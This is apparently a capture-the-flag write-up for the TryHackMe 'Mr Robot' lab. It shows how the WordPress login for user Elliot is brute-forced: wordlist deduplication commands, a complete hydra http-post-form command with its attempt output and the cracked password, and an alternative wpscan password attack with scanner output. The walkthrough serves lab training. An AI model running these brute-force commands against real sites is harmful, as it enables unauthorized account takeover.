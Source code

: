 `username = Elliot`

Then the password...

It was taking mad long so I reduced the dictonary

SORTING AND REMOVING DUPLICATES from your bruteforce dictionaries is vital

`sort fsocity.dic | uniq > fsocity-sorted.dic`

OR

`cat fsocity.dic | sort -u | uniq > wordlist.dic`

Then

```
hydra -l Elliot -P /home/nair0lf32/Desktop/Stuff/THM/mrRobot/fsocity.dic 10.10.82.148  http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=The password you entered for the username" -V -t 30


[ATTEMPT] target 10.10.245.102 - login "Elliot" - pass "experiencing" - 356 of 6077 [child 54] (0/0)
[ATTEMPT] target 10.10.245.102 - login "Elliot" - pass "experiment" - 357 of 6077 [child 52] (0/0)
[ATTEMPT] target 10.10.245.102 - login "Elliot" - pass "experimental" - 358 of 6077 [child 57] (0/0)
[ATTEMPT] target 10.10.245.102 - login "Elliot" - pass "experince" - 359 of 6077 [child 58] (0/0)
[80][http-post-form] host: 10.10.245.102   login: Elliot   password: ER28-0652
1 of 1 target successfully completed, 1 valid password found

```

Alternatively you can bruteforce for password with wp-scan:
wpscan --url 10.10.245.102 --wp-content-dir wp-admin --usernames elliot --passwords /home/nair0lf32/Desktop/Stuff/THM/mrRobot/fsocity-sorted.dic 

```
     _______   _____
\ \        / /  __ \ / ____|
\ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
\ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
\  /\  /  | |     ____) | (__| (_| | | | |
\/  \/   |_|    |_____/ \___|\__,_|_| |_|

WordPress Security Scanner by the WPScan Team
Version 3.8.17

@_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] Updating the Database ...
[i] Update completed.

[+] URL: http://10.10.245.102/ [10.10.245.102]
[+] Started: Sun Oct 24 22:04:01 2021

Interesting Finding(s):

[+] Headers
| Interesting Entries:
|  - Server: Apache
|  - X-Mod-Pagespeed: 1.9.32.3-4523
| Found By: Headers (Passive Detection)
| Confidence: 100%

[+] robots.txt found: http://10.10.245.102/robots.txt
| Found By: Robots Txt (Aggressive Detection)
| Confidence: 100%

```